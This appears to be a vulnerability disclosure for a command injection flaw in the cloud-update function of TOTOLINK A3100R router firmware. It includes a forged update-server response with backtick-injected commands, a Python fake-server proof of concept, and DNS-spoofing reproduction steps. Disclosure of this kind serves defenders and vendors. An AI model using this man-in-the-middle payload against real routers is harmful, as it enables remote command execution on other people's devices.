




# Command Injection

## A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129


## Description:
We have found an issue with function uci_cloudupdate_config in  module cloudupdate_check , parameter "magicid"  and "url" can couse command injection.Hacker can use this  by Man-in-the-middle attack.

## Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html


## Analyse：
In function uci_cloudupdate_config as we can  see，there is  no filter with magicid and url，after snprintf it was passed to system. If we pass magicid with `ls`,the command 'ls' will be executed and the result will be written to /tmp/ActionMd5.
 

function trace back：
uci_cloudupdate_config<-parse_upgserver_info<-connect_cloud<-cloudupdate_check

before cloudupdate_check thre is  a init_host_config function call:
 

we can find the server name in this function
 


## reproduct:
1、make a fake sever with  follow response
```
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`ls -la`","magicid":"`ls`","version":"1","svn":"","plugin":[],"protocol":"3.0"}
```
you can use payload like follows
```
import socket

sSock=socket.socket()
sSock.bind(('192.168.0.109',80))
sSock.listen(1000)

cSock,addr=sSock.accept()

if(True):
    str1=cSock.recv(1024)
    print("client:"+str1.decode('utf-8'))

    #str2=input('>>>')

    str2='''HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`ls -la`","magicid":"`ls`","version":"1","svn":"","plugin":[],"protocol":"3.0"}'''
    cSock.send(str2.encode())

cSock.close()
```

2、make dnsreslove update.carystudio.com to your fake server

3、reboot the router

4、check /tmp/ActionMd5 and /tmp/DlFileUrl
then we have successfully run command ‘ls’ and ‘ls -la’


